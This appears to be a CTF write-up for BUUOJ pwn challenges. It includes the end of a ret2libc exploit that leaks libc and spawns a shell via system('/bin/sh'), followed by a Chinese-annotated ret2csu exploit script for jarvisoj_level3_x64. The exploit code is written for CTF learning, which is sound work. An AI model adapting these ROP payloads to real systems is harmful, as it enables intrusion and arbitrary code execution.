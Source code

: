 ```python
payload += p32(4)

io.sendline(payload)

read = u32(io.recv(4))
print(hex(read))
libc = LibcSearcher('read', read)
base = read - libc.dump('read')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(136 + 4)
payload += p32(sys)
payload += p32(0xdeadbeef)
payload += p32(binsh)

io.sendline(payload)

io.interactive()
```
# buu036-jarvisoj_level3_x64
典型的ret2csu，与RopEmporium的最后一题利用方式高度一致。
注意第一个payload里面的0x600890保存的实际是sub rsp,8 ; add rsp,8 ; ret的地址。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28787)
elf = ELF('./pwn')

# gdb.attach(io)
# sleep(1)

poprdi_ret = 0x4006b3
poprsir15_ret = 0x4006b1
movrdxr13 = 0x400690
pop6_ret = 0x4006aa

payload = cyclic(128 + 8)

payload += p64(pop6_ret)
payload += p64(0)			# rbx
payload += p64(1)			# rbp
payload += p64(0x600890)	# r12
payload += p64(8)			# r13
payload += p64(elf.got['read'])	# r14
payload += p64(0)			# r15

payload += p64(movrdxr13)	# mov rdx, r13; mov rsi, r14; mov edi, r15d
# then call 'pop rdi, ret'
# payload += p64(1)
payload += p64(0) * 7

payload += p64(poprdi_ret)
payload += p64(1)
# at this time, rdi = 1, rsi = addr(got['read']), rdx = 4
payload += p64(elf.plt['write'])
payload += p64(elf.symbols['main'])

io.sendlineafter(b'Input:\n', payload)
```